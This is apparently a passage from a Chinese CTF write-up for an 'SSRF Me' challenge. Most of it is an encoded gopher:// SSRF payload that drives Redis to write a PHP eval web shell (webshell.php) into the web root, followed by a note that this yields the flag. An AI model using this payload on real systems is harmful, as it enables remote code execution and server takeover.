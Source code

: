 通过构造 Payload 如下

```
?url=gopher://0.0.0.0:6379/_%252a%2532%250d%250a%2524%2534%250d%250a%2561%2575%2574%2568%250d%250a%2524%2534%250d%250a%2572%256f%256f%2574%250d%250a%252a%2534%250d%250a%2524%2536%250d%250a%2563%256f%256e%2566%2569%2567%250d%250a%2524%2533%250d%250a%2573%2565%2574%250d%250a%2524%2533%250d%250a%2564%2569%2572%250d%250a%2524%2531%2533%250d%250a%252f%2576%2561%2572%252f%2577%2577%2577%252f%2568%2574%256d%256c%250d%250a%252a%2534%250d%250a%2524%2536%250d%250a%2563%256f%256e%2566%2569%2567%250d%250a%2524%2533%250d%250a%2573%2565%2574%250d%250a%2524%2531%2530%250d%250a%2564%2562%2566%2569%256c%2565%256e%2561%256d%2565%250d%250a%2524%2531%2532%250d%250a%2577%2565%2562%2573%2568%2565%256c%256c%252e%2570%2568%2570%250d%250a%252a%2533%250d%250a%2524%2533%250d%250a%2573%2565%2574%250d%250a%2524%2533%250d%250a%252d%252e%252d%250d%250a%2524%2532%2536%250d%250a%253c%253f%2570%2568%2570%2520%2540%2565%2576%2561%256c%2528%2524%255f%2550%254f%2553%2554%255b%2531%255d%2529%253b%2520%253f%253e%250d%250a%252a%2531%250d%250a%2524%2534%250d%250a%2573%2561%2576%2565%250d%250a
```

访问后虽然会显示 504 ，但通过访问 `webshell.php` 可以发现 Shell 已经成功上传，就可以得到 flag 了。

<figure><img src=".gitbook/assets/SSRF Me-3.png" alt=""><figcaption></figcaption></figure>
